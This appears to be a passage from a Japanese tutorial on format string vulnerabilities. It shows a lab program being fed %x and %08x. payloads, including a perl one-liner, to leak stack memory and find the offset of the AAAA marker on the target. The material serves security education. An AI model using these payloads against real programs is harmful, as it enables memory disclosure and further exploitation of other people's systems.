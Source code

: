 　今回はフォーマットストリングとしてtext配列が渡されていますので、text配
列のアドレス(0x0000004-0x000000a)を出力します。最終的に0x000000aでNULLに
出会うので、0x000000aまでをフォーマットストリングだと認識して出力します。
通常の文字をコマンドライン引数に指定しても特に問題はありませんが、ここに
変換指定文字を含めるとどうなるでしょう。

```
defolos@glazheim:\~/Desktop$ ./a.out test%x
Good:
test%x
Bad:
testbffff550
[DEBUG] test_val @ 0x08049654 \= -72 0xffffffb8
```

　スタックの内容が表示されました。これはprintf()がフォーマットストリング
として与えられたtext配列を出力する際、変換指定文字に出会ったところで、本
来第二引数が格納されているであろうアドレスをprintf()が読み出しているため
に起こります。これを利用すれば任意のアドレスの値を出力することができます。
　次のようにperlスクリプトを使って「%08x.」を50回入力します。全部手で打つ
のは面倒なのでperlを使ってます。ちなみに、%08xは8桁の16進数で表示するとい
う変換指定文字です。

```
defolos@glazheim:\~/Desktop$ ./a.out \`perl -e 'print "%08x."x50;'\`
Good:
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
%08x.%08x.%08x.%08x.%08x.%08x.
Bad:
bffff450.00000000.4001670c.00000002.00000004.00000000.
00000000.78383025.3830252e.30252e78.252e7838.2e783830.
78383025.3830252e.30252e78.252e7838.2e783830.78383025.
3830252e.30252e78.252e7838.2e783830.78383025.3830252e.
30252e78.252e7838.2e783830.78383025.3830252e.30252e78.
252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
2e783830.78383025.3830252e.30252e78.252e7838.2e783830.
78383025.3830252e.30252e78.252e7838.2e783830.78383025.
3830252e.30252e78.
[DEBUG] test_val @ 0x08049654 \= -72 0xffffffb8
```

　252e7838という数値の繰り返しが目立ちますが、これは「%08x.」という文字が
出力されているからです。つまり、78383025がはじめに現れるところからは引数
として渡された配列のアドレス内容をのぞいているということになります。retと
引数が格納されているアドレスとの間には多少の隙間がありますが、この隙間の
サイズはシステムやコンパイラによって変化します。ゆえに、まず攻撃対象のシ
ステムで任意のメモリの内容を表示するために変換指定文字をいくつ重ねればよ
いのかを計測します。

```
defolos@glazheim:\~/Desktop$ ./a.out AAAA\`perl -e 'print "%08x."x8;'\`
Good:
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
Bad:
AAAAbffff520.00000000.4001670c.00000002.00000004.00000000.
00000000.41414141.
[DEBUG] test_val @ 0x08049654 \= -72 0xffffffb8
```
